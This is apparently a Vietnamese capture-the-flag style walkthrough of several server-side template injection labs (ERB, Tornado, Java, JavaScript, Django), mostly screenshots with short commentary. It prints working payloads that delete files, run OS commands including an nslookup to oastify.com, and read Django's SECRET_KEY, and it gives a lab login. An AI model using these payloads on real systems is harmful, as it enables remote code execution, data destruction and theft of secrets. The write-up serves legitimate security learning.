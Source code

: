 ![image](https://github.com/user-attachments/assets/7e64cc62-af5b-4352-8058-ea37de950a0b)

Đây là giao diện, hiện tại thì chưa thấy có gì:

![image](https://github.com/user-attachments/assets/83f29181-d186-4130-94b2-0c1b3582fb8e)

Khi ấn vào cái đầu tiên thì nó hiện ra Unfortunately this product is out of stock, còn cái khác vẫn ra thông tin:

![image](https://github.com/user-attachments/assets/6062dc78-1f1e-4312-a941-96733d25356c)

Và req đây:

![image](https://github.com/user-attachments/assets/b5219a65-535b-4833-986b-c25139be301e)

Sau khi fuzz nhanh qua message thì tôi thấy cái `<%=77*77%>` là nó tính ra được kết quả:

![image](https://github.com/user-attachments/assets/84d24c9b-786f-4405-9cac-073f62e7f67f)

Tôi hỏi chatgpt để lấy lệnh xóa file trong ERB template

![image](https://github.com/user-attachments/assets/d7afb287-cd43-4cd9-b156-163262e1f2e8)

![image](https://github.com/user-attachments/assets/becd0cc2-a85a-4e94-ba23-55aaca0a7cf3)

`<% File.delete("morale.txt")%>`

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/74e78801-b2e7-41dc-a95a-b8da70e57d17)

Giao diện sau khi đăng nhập với wiener đây:

![image](https://github.com/user-attachments/assets/b0571ab2-f8c2-4d2b-91fb-c330329758e0)

Đây là req sau khi chọn cái preferred name:

![image](https://github.com/user-attachments/assets/d634a163-3ab9-46ce-bf09-b43ffe25ccaf)

Do nó tên là blog-post-author-display nên tôi thử vào mấy cái blog post, để lại comment, và tính năng của cái đấy là sẽ hiển thị tên của tôi ở 3 dạng:

![image](https://github.com/user-attachments/assets/85c5f60c-d344-4c68-aa33-7a0eca17ebbf)

Nếu search cái Tornado template thì ra cái payload:

![image](https://github.com/user-attachments/assets/3c3d0ae9-c2fd-4cb6-bd6a-44e0143ed261)

Sau khi tôi chèn `{{77*77}}` thì ra kết quả `{{5929}}`, nó hoạt động:

![image](https://github.com/user-attachments/assets/90020b7b-3871-44d2-8656-9fb42f0d0a55)

Tôi chèn `{%import os%}{{os.system('nslookup oastify.com')}}` vào blog-post-author-display:

![image](https://github.com/user-attachments/assets/99fb986d-d40c-452e-8087-7af9b044b6a0)

Cái này có vẻ là do đang dùng trong mấy cái name các thứ kia thì tôi lại chạy nên nó xảy ra lỗi, thế nên tôi sửa thành `user.first_name}}{%import os%}{{os.system('nslookup oastify.com')}}` nhằm tạo hẳn 1 cái mới

![image](https://github.com/user-attachments/assets/aa06cb6c-4454-435e-aa88-21f7e8a478a0)

![image](https://github.com/user-attachments/assets/ae1520a2-c0aa-4f7c-abce-d9bbf98efeb7)

Đổi sang `rm morale.txt` là xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/aac6ee4c-de09-4681-b809-cdb110a2ff14)

Vào bài post thì có thể sửa được cái template:

![image](https://github.com/user-attachments/assets/aa0d55d3-be78-4dd7-8640-011d71aa4718)

Req đấy đây:

![image](https://github.com/user-attachments/assets/69f33089-6f31-4ee7-8652-12077da42c8d)

Do `${}` có nhiều loại nên không phải cái nào cũng được

![image](https://github.com/user-attachments/assets/78f87e68-e8bd-44e0-97e6-603837e7db98)

Sau 1 lúc mò payload ssti trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md) thì ra được cái `${77*77}`:

![image](https://github.com/user-attachments/assets/a0eae38a-5d50-459d-9da4-9340acc8add1)

Sau 1 lúc tìm payload trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), đến đoạn java thì được:

![image](https://github.com/user-attachments/assets/f2f0eb62-faca-4f33-af31-e932d1b3d9a1)

![image](https://github.com/user-attachments/assets/bcb6a021-85e6-4564-8db3-496f158eb00e)

Đổi sang xóa là xong

![image](https://github.com/user-attachments/assets/18c1380e-5120-4575-aedf-4449d84cb3b5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/d7975839-9de2-4df6-b66d-501a7ef9b3ec)

Khi ấn view detail cái đầu tiên thì ra Unfortunately this product is out of stock:

![image](https://github.com/user-attachments/assets/bd87d20b-6c0e-43e9-a66c-825bb4823ced)

![image](https://github.com/user-attachments/assets/110714c6-70ba-4d6d-afbc-8df58760baea)

Tôi lấy bừa cái [wordlist](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt) trên mạng để chạy thì có 1 số cái gây ra lỗi:

![image](https://github.com/user-attachments/assets/41323ee5-8333-4011-b6e4-3f24687e2949)

Sau khi xác định được đây là javascript, tôi đi mày mò payload ở trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md) thì có cái này:

![image](https://github.com/user-attachments/assets/88448207-5c0f-4598-873b-56eb25b40ef1)

Encode url rồi ném vào message thì được:

![image](https://github.com/user-attachments/assets/5b526a05-3392-46f7-bc69-f973820ae06f)

Đổi sang rm là được:

![image](https://github.com/user-attachments/assets/f9aefd62-73f9-48c6-a5ee-8bbf45030e56)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/96312d12-471c-40cf-8558-94f640e789cd)

Đăng nhập bằng content-manager:C0nt3ntM4n4g3r và vào các blog post thì có edit template:

![image](https://github.com/user-attachments/assets/1067d492-be88-4eda-9135-7aab77751c37)

Tiếp tục dùng payload kia thì tôi ra được mấy cái 500 

![image](https://github.com/user-attachments/assets/bbd9f8b5-3618-4d99-9e0d-9d354d614eed)

Để ý cái lỗi là nó thuộc django: 

![image](https://github.com/user-attachments/assets/97a8c60d-01d9-402e-a10b-67c7d278accc)

Thử mấy cái payload Django:

![image](https://github.com/user-attachments/assets/9504d16f-2017-4869-8547-14b66348a9d9)

![image](https://github.com/user-attachments/assets/99672052-892a-4146-84c2-26b328ce8f88)

`{{settings.SECRET_KEY}}` là cú pháp của Django Template Language (DTL), được dùng để truy cập biến SECRET_KEY trong tập tin cấu hình settings.py của Django

![image](https://github.com/user-attachments/assets/af14d3bb-1473-4578-83a5-cb37cd464ad2)






























